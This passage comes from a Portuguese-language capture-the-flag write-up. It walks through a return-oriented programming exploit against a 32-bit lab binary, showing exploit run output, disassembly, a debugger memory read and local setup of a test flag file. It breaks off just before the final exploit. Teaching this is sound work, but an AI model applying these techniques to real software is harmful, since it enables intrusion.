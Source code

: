 E isso nos devolve:

```
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ python3 exploit.py
[*] '/home/reisraff/workdir/challs/port-65144/port-65144'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/reisraff/workdir/challs/port-65144/port-65144': pid 2347
=========================
what the process returned
Enter your buffer: gotcha func1
gotcha func2
```

Eu poderia supor que a função2 tem o mesmo comportamento de alterar o valor da variável na `.bss` por causa desta instrução:

```raw
80492d7:  c6 80 36 00 00 00 01  mov    BYTE PTR [eax+0x36],0x1
```

E finalmente fazemos o mesmo para a função que tem o `open` com a string `/code/ROP-me/flag.txt`, mas para que este próximo passo funcione temos que ter este arquivo com o caminho exato em nossa máquina, então vou criar:

```raw
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ sudo mkdir -p /code/ROP-me/
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ echo "FLAG TEST" | sudo tee /code/ROP-me/flag.txt
FLAG TEST
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ cat /code/ROP-me/flag.txt
FLAG TEST
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ sudo chmod 777 -R /code
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ ls /code/ROP-me/flag.txt  -l
-rwxrwxrwx 1 root root 10 Aug 31 22:08 /code/ROP-me/flag.txt
```

Agora passamos para a próxima etapa, vamos lembrar como era a função:

<center><img src="post-assets/port-65144-ghidra-1.png" width="732" alt="ghidra" /></center>

OK, as duas primeiras condições eu acho que vão passar, e a última depende do valor param1 que deve ser um valor que ao subtrair `0x01` dele, deve ser igual a `0x01`. Por que `0x01` porque acabei de printar:

```
gef➤  x/x 0x0804c035
0x804c035:  0x00000001
```

Qual valor subtraindo 1 é igual a 1? Este eu vou deixar você encontrar sozinho!

Agora que temos 3 argumentos, precisaremos de um `pop; pop; pop; ret; `, então o exploit final é:

